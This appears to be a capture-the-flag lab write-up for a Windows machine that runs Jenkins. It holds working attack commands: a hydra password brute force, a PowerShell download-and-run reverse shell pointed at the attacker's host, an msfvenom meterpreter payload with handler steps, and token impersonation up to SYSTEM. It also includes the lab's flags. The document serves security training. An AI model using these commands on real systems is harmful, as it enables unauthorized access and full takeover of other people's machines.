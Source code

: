 > Alfred | Jenkins

# rustscan

sudo rustscan -a $IP --ulimit=5000 --batch-size=4500 -- -sC -sV -Pn -A -O | tee rustscan.log


```
80/tcp   open  http           syn-ack ttl 127 Microsoft IIS httpd 7.5
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: Site doesn't have a title (text/html).
3389/tcp open  ms-wbt-server? syn-ack ttl 127
8080/tcp open  http           syn-ack ttl 127 Jetty 9.4.z-SNAPSHOT
|_http-favicon: Unknown favicon MD5: 23E8C7BD78E8CD826C5A6073B15068B1
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Jetty(9.4.z-SNAPSHOT)
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
```

And let's work straight with Jenkins. We don't have any credentials . Let's try bruteforcing with some passwords.

## wordlists.txt

```
admin
default
jenkins
password
Admin
Default
Jenkins
Password
```

# hydra

hydra -L wordlists.txt -P wordlists.txt $IP -s 8080 http-form-post "/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&form=%2F&Submit=Sign+in:loginError"

```
[8080][http-post-form] host: 10.10.48.97   login: admin   password: admin => This works
[8080][http-post-form] host: 10.10.48.97   login: Admin   password: admin
```

In `Projects` tab, under `Configure` we can execute commands. And let's put the payload here!!

`powershell iex (New-Object Net.WebClient).DownloadString('http://10.8.107.21:8000/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.8.107.21 -Port 1234`

Let's have a python server and listener setup. Now we have a shell after building the project!!

# user.txt

```
79007a09481963edf2e1321abd9ae2a0
```

# Switching shells

# Msfvenom Payload

`msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.8.107.21 LPORT=12345 -f exe -o shell.exe`

Let's transfer it to the machine using `Invoke-PowerShellTcp.ps1`

`powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.8.107.21:8000/shell.exe', 'shell.exe')"`

# Steps

1. (msfconsole) use exploit/multi/handler 
2. (msfconsole) set PAYLOAD windows/meterpreter/reverse_tcp 
3. (msfconsole) set LHOST 10.8.107.21 
4. (msfconsole) set LPORT 12345
5. (msfconsole) run
6. (powershell) Start-Process "shell-name.exe"

Now we have a meterpreter shell!!

# Privilege Escalation

Here they are using token impersonation attack.

whoami /all

```
Privilege Name                  Description                               State   
=============================== ========================================= ========
SeIncreaseQuotaPrivilege        Adjust memory quotas for a process        Disabled
SeSecurityPrivilege             Manage auditing and security log          Disabled
SeTakeOwnershipPrivilege        Take ownership of files or other objects  Disabled
SeLoadDriverPrivilege           Load and unload device drivers            Disabled
SeSystemProfilePrivilege        Profile system performance                Disabled
SeSystemtimePrivilege           Change the system time                    Disabled
SeProfileSingleProcessPrivilege Profile single process                    Disabled
SeIncreaseBasePriorityPrivilege Increase scheduling priority              Disabled
SeCreatePagefilePrivilege       Create a pagefile                         Disabled
SeBackupPrivilege               Back up files and directories             Disabled
SeRestorePrivilege              Restore files and directories             Disabled
SeShutdownPrivilege             Shut down the system                      Disabled
SeDebugPrivilege                Debug programs                            Enabled  => 🔒
SeSystemEnvironmentPrivilege    Modify firmware environment values        Disabled
SeChangeNotifyPrivilege         Bypass traverse checking                  Enabled 
SeRemoteShutdownPrivilege       Force shutdown from a remote system       Disabled
SeUndockPrivilege               Remove computer from docking station      Disabled
SeManageVolumePrivilege         Perform volume maintenance tasks          Disabled
SeImpersonatePrivilege          Impersonate a client after authentication Enabled  => 🔒
SeCreateGlobalPrivilege         Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege   Increase a process working set            Disabled
SeTimeZonePrivilege             Change the time zone                      Disabled
SeCreateSymbolicLinkPrivilege   Create symbolic links                     Disabled
```

Let's load `incognito` module to exploit this vulnerability. `load incognito`

list_tokens -g

```
Delegation Tokens Available
========================================
\
BUILTIN\Administrators
BUILTIN\IIS_IUSRS
BUILTIN\Users
NT AUTHORITY\Authenticated Users
NT AUTHORITY\NTLM Authentication
NT AUTHORITY\SERVICE
NT AUTHORITY\This Organization
NT AUTHORITY\WRITE RESTRICTED
NT SERVICE\AppHostSvc
NT SERVICE\AudioEndpointBuilder
NT SERVICE\BFE
NT SERVICE\CertPropSvc
NT SERVICE\CscService
NT SERVICE\Dnscache
NT SERVICE\eventlog
NT SERVICE\EventSystem
NT SERVICE\FDResPub
NT SERVICE\iphlpsvc
NT SERVICE\LanmanServer
NT SERVICE\MMCSS
NT SERVICE\PcaSvc
NT SERVICE\PlugPlay
NT SERVICE\RpcEptMapper
NT SERVICE\Schedule
NT SERVICE\SENS
NT SERVICE\SessionEnv
NT SERVICE\Spooler
NT SERVICE\TrkWks
NT SERVICE\TrustedInstaller
NT SERVICE\UmRdpService
NT SERVICE\UxSms
NT SERVICE\WinDefend
NT SERVICE\Winmgmt
NT SERVICE\WSearch
NT SERVICE\wuauserv

Impersonation Tokens Available
========================================
NT AUTHORITY\NETWORK
NT SERVICE\AudioSrv
NT SERVICE\CryptSvc
NT SERVICE\DcomLaunch
NT SERVICE\Dhcp
NT SERVICE\DPS
NT SERVICE\LanmanWorkstation
NT SERVICE\lmhosts
NT SERVICE\MpsSvc
NT SERVICE\netprofm
NT SERVICE\NlaSvc
NT SERVICE\nsi
NT SERVICE\PolicyAgent
NT SERVICE\Power
NT SERVICE\ShellHWDetection
NT SERVICE\TermService
NT SERVICE\W32Time
NT SERVICE\WdiServiceHost
NT SERVICE\WinHttpAutoProxySvc
NT SERVICE\wscsvc
```

impersonate_token "BUILTIN\Administrators"

```
[+] Delegation token available
[+] Successfully impersonated user NT AUTHORITY\SYSTEM
```

getuid => `NT AUTHORITY\SYSTEM`

We are NT authority but with impersonated token. So we are restricted to setermine what processes can do since windows allows users with primary access token to determine what the process can do. Let's migrate the process to services.exe which is safe for us.

Type `ps` and we have the pid of `services.exe`. Now in metasploit type `migrate PID`.

# root.txt

```
dff0f748678f280250f25a45b8046b4a
```